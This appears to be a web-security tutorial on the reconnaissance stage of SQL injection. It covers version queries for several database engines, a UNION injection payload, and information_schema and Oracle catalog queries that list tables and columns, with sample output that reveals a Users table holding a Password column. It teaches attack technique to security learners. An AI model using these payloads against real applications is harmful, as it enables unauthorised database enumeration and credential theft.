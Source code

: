 # Examining the database in SQL injection attacks

When exploiting [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerabilities, it is often necessary to gather some information about the database itself. This includes the type and version of the database software, and the contents of the database in terms of which tables and columns it contains.

## **Querying the database type and version**

Different databases provide different ways of querying their version. You often need to try out different queries to find one that works, allowing you to determine both the type and version of the database software.

The queries to determine the database version for some popular database types are as follows:

| Database type | Query |
| --- | --- |
| Microsoft, MySQL | SELECT @@version |
| Oracle | SELECT * FROM v$version |
| PostgreSQL | SELECT version() |

For example, you could use a `UNION` attack with the following input:

```
' UNION SELECT @@version--
```

This might return output like the following, confirming that the database is Microsoft SQL Server, and the version that is being used:

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64)
Mar 18 2018 09:11:49
Copyright (c) Microsoft Corporation
Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

## **Listing the contents of the database**

Most database types (with the notable exception of Oracle) have a set of views called the information schema which provide information about the database.

You can query `information_schema.tables` to list the tables in the database:

```
SELECT * FROM information_schema.tables
```

This returns output like the following:

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

This output indicates that there are three tables, called `Products`, `Users`, and `Feedback`.

You can then query `information_schema.columns` to list the columns in individual tables:

```
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

This returns output like the following:

```
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

This output shows the columns in the specified table and the data type of each column.

## **Equivalent to information schema on Oracle**

On Oracle, you can obtain the same information with slightly different queries.

You can list tables by querying `all_tables`:

```
SELECT * FROM all_tables
```

And you can list columns by querying `all_tab_columns`:

```
SELECT * FROM all_tab_columns WHERE table_name = 'USERS'
```